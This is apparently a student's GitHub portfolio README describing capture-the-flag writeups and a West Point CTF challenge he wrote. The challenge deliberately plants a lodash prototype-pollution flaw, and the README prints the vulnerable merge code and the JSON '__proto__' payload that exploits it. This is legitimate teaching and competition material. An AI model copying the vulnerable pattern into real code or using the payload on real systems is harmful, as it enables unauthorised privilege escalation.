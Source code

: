 # Daniel Chung's Cyber Portfolio

## Writeups

Over the course of my collegiate experience at the United States Military Academy, I have competed with the Cadet Competitive Cyber Team (C3T) in multiple Capture-The-Flag and Red VS Blue Competitions. 

The following are writeups for some of the top challenges I have solved in competition, found in the writeups folder.
- Smuggling Mail 
  - A web challenge that required players to smuggle requests past Varnish to the backend, then exfil the flag from the server.
- Ninja
  - A web challenge that required players to use XSS, SSTI, and python subclasses to exfil the flag from the server.
- Gatekeeping
  - A Web challenge that required players to find a gunicorn vulnerability to receive a decryption key for a flag.

## Code examples

An example of code I would like to submit includes the web application I wrote for a West Point internal Capture-The-Flag competition. The web application allows users to post messages to a message board, and the messages are displayed on the home page.

Players were provided the source code for both the frontend and backend, where the frontend was written in Python utilizing Flask, and the backend was written in Node.js utilizing Express. In order to solve this challenge, players had to find a vulnerability in the backend that allowed them to modify the admin's post to a specific string of "hack the planet".

The intended vulnerability was prototype pollution of the user object, which allowed the user to modify the admin's post. In this challenge, the admin user had a parameter called `canModify` set to `True` which allowed the admin user to modify all posts. The normal user did not have this parameter, and could not modify the admin post. 

The vulnerability was intentionally placed using the `lodash` package, version 4.17.4 for node.js as follows:

```js
const _ = require('lodash');

const users = [
    { name: 'user', password: 'user' },
    { name: 'admin', password: Math.random().toString(32), canModify: true },
];

...

const message = {};
_.merge(message, req.body.message, {
    username: user.name,
    id: lastId++,
}); 
```

The merge function of the lodash package is used to merge the user's message with the message object, which is then used to create a new message. The merge function is vulnerable to prototype pollution, which allows the user to modify the user object and give themselves a `canModify` parameter by sending a request to the backend with the following body:

```json
{
    "auth": {"name": "user", "password": "user"},
    "message": {
        "text": "polluted!",
        "__proto__": {
            "canModify": true
        }
    }
}
```

After this request is sent, the user can then modify the admin post by sending a request to the backend with the following body:

```json
{
    "auth": {"name": "user", "password": "user"},
    "message": {
        "text": "hack the planet",
        "id": 0
    }
}
```

The code for this challenge can be found [here](pollution_protests).